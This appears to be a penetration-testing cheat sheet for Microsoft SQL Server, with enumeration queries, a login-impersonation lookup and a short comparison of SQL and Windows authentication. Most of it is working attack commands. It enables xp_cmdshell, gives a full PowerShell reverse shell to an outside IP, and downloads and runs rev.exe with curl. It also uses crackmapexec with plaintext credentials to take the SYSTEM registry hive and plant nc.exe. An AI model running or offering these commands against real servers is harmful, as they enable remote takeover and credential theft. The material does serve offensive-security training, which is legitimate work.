 ### MSSQL Default Database
```
Master
Model
Msdb
Tempdb
```
### Queries to run 
```
# Get version
select @@version;
# Get user
select user_name();

#show database 
SELECT name FROM master..sysdatabases;

# Use database
USE master

#Get table names
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
SELECT * FROM information_schema.tables

# Get table content
> SELECT * FROM <database_name>.dbo.<table_name>
```
### If current user does not have permission o view database
Backgroup  
>SQL (HAERO\discovery  guest@master)> use hrappdb
>ERROR: Line 1: The server principal "HAERO\discovery" is not able to access the database "hrappdb" under the current security context.

Solution
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
name             
--------------   
hrappdb-reader
```
### Enable command execution
```
enable_xp_cmdshell;
```
```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### Mssql Connection and Get Reverse Sehll
```
impacket-mssqlclient user:pass@IP
impacket-mssqlclient user:pass@IP -windows-auth

EXEC xp_cmdshell 'powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(''10.10.77.153'',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'
```
Or 
```
EXECUTE xp_cmdshell 'curl http://192.168.45.202:8000/rev.exe -o C:\Users\Public\rev.exe';
EXECUTE xp_cmdshell 'c:\users\public\rev.exe';
rlwrap nc -nlvp 4444
```
### Sql authentication vs Windows authentication
>SQL Server Authentication:

>User Credentials: Requires a username and password specific to the SQL Server database.
Authentication Process: The SQL Server validates the username and password provided by the user.
Security Implications: Typically involves storing a username and password in the application's connection string. This method is more vulnerable to security threats if credentials are not adequately protected.
Example connection string using SQL Server Authentication:

>Windows Authentication:

>User Credentials: Relies on the user's Windows credentials (username and password) without requiring a separate SQL Server username and password.
Authentication Process: The SQL Server trusts the Windows authentication process, and the user is authenticated based on their Windows login credentials.
Security Implications: Generally considered more secure as it leverages the security features of the Windows operating system. Credentials are not typically stored in connection strings.

### MSSQL Upload and Download Files
```
proxychains4 -f /etc/proxychains4.conf crackmapexec mssql 10.10.133.148 -u sql_svc -p Dolphin1 --get-file C:\\windows.old\\Windows\\System32\\SYSTEM /home/kali/Desktop/SYSTEM
proxychains4 -f /etc/proxychains4.conf crackmapexec mssql 10.10.133.148 -u sql_svc -p Dolphin1 --put-file nc.exe C:\\Users\\Public\\nc.exe
```
